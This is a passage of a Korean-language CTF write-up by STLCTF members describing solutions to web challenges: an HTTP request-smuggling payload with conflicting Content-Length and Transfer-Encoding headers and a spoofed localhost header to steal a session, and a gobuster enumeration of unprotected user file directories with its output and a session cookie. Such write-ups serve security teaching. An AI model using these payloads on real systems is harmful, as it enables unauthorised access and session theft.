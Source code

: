 > Solver is **Seokchan Yoon (@ch4n3)** from **STLCTF**

33337/tcp 포트로 접근 시 웹 서비스가 존재한다. 특정한 패킷을 전송하게 되면 `PHPSESSID`를 획득할 수 있고, 이를 이용하여 `/private.php`에 접근하여 플래그를 획득할 수 있다.

```
GET /save.php?first=1 HTTP/1.1
Host: threeofhearts.ctf.net
Content-Encoding: chunked
Content-Type: application/x-www-form-urlencoded
Content-Length: 160
Transfer-Encoding: chunked

5f
0

GET /save.php?second=1 HTTP/1.1
Host: threeofhearts.ctf.net
Content-Length: 40
Cookie: 
0

GET /save.php?second=222 HTTP/1.1
X-Access: localhost
```

----

## 4 of Clubs

> Solver is **Dohyun Kim (@d0now)** from **STLCTF**

15010/tcp로 접근 시 웹 서비스가 존재한다. 회원가입 후 파일을 업로드/다운로드 할 수 있다. 다운로드 한 파일은 `/users/[username]/files/[filename]`에 저장 되는데, 아무나 접근이 가능하여 `username`과 `filename`을 스캐닝하여 플래그를 획득할 수 있었다.

```
$ gobuster dir -u http://localhost:31337/users/employee/files/ -c "$RACK_SESSION" -a "$USER_AGENT" -t 32 -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://localhost:31337/users/employee/files/
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] Cookies:                 rack.session=BAh7CUkiD3Nlc3Npb25faWQGOgZFVG86HVJhY2s6OlNlc3Npb246OlNlc3Npb25JZAY6D0BwdWJsaWNfaWRJIkUxYWY3ZDQyN2FiZTEwZTg4YTMwODNmYTdkNzJmMjBlMzZlY2JhZmMwMGU3MTI3OTM2ZmI3NjEzOWE3NTQxNTI0BjsARkkiCWNzcmYGOwBGSSIxM2RLY0tzdGlYRFBzNVBLVllwWXJQOC9oT0t6bWkxQ1hZVmEvOThWTGU2WT0GOwBGSSINdHJhY2tpbmcGOwBGewZJIhRIVFRQX1VTRVJfQUdFTlQGOwBUSSItYzY5NzEzNGFjMTU4OWNmZjcxZjYwNGE3NTg4ZmIxYTJiMTA5MTI2MwY7AEZJIg11c2VybmFtZQY7AEZJIgphRG1pbgY7AFQ%3D--e346362309c00ead4b73f84b2ae76a89edbed0ae
[+] User Agent:              Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
[+] Timeout:                 10s
===============================================================
2021/12/04 12:50:26 Starting gobuster in directory enumeration mode
===============================================================
/fileadmin            (Status: 200) [Size: 169825]
/reports              (Status: 200) [Size: 23]
/upload               (Status: 403) [Size: 13]

===============================================================
2021/12/04 12:53:43 Finished
===============================================================
```
